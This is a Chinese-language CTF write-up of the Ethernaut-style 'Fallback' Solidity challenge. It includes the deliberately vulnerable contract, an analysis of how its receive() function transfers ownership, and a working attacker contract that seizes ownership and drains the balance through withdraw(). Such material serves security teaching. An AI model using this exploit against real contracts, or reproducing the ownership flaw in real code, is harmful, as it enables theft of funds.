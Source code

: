 # 1. Fallback

### 原题
```
仔细看下面的合约代码.

通过这关你需要

获得这个合约的所有权
把他的余额减到0

以下可能有帮助:
如何通过与ABI互动发送ether
如何在ABI之外发送ether
转换 wei/ether 单位 (参见 help() 命令)
Fallback 方法

```
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {
    mapping(address => uint256) public contributions;
    address public owner;

    constructor() {
        owner = msg.sender;
        contributions[msg.sender] = 1000 * (1 ether);
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }

    function getContribution() public view returns (uint256) {
        return contributions[msg.sender];
    }

    function withdraw() public onlyOwner {
        payable(owner).transfer(address(this).balance);
    }

    receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
}
```

### 分析

首先要获得控制权，也就是owner要修改成我们自己的攻击合约地址。\
看源码有两处地方是 owner = msg.sender。\
那就先看这两处的逻辑是否有漏洞。

```solidity
function contribute() public payable {
  // 执行通过的条件是转账金额要小于 0.001 ether
  require(msg.value < 0.001 ether);
  // 发送者账号余额累加相应金额
  contributions[msg.sender] += msg.value;
  // 当发送者账号余额大于owner的余额账号，就可以转交所有权
  // 注意到初始化的时候 contributions[msg.sender] = 1000 * (1 ether);
  // 每次转账小于0.001，同时余额要大于1000，不适合攻击
  if (contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
  }
}

// 再看第二个
receive() external payable {
  // 当转账金额大于0，并且余额大于0，这时候就可以转移所有权
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender;
}
```
receive这个函数的作用就是接收纯转账（transfer，send，call("")）等。\
为了满足contributions[msg.sender] > 0，我们先调用contribute(),转账金额小于0.001 ether，\
然后再进行一个纯转账操作token.call{value: 0.001 ether}(""),
这样就满足了执行条件，\
执行owner = msg.sender，这样就拿到了所有权。\
所有权在手，执行withdraw()，合约的全部余额取现，这样合约的余额也被清空。\
以下是攻击代码，为了演示，请忽略细节。\
如果是在remix上测试，切记要对2个合约初始余额值，\
不然余额为0，无法完成攻击

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IFallback {
    function contribute() external  payable;
    function withdraw() external ;
}

contract FallbackAttack {
    IFallback fb;

    event AttackOwner();

    error AttackOwnerError();

    receive() external payable { }

    constructor(address _fb) payable {
        fb = IFallback(_fb);
    }

    function attackOwner() public {
         bytes memory signature = abi.encodeWithSignature("contribute()");
        (bool success, bytes memory data) = address(fb).call{value: 0.0005 ether}(signature);
        if (success) {
            //
            (bool su, ) = address(fb).call{value: 0.0005 ether}("");
            if (su) emit AttackOwner();
            
        } else {
            // revert AttackOwnerError();
            revert(string(data));
        }
        
    }

    function attackWithdraw() public {
        fb.withdraw();
    }
    
}
```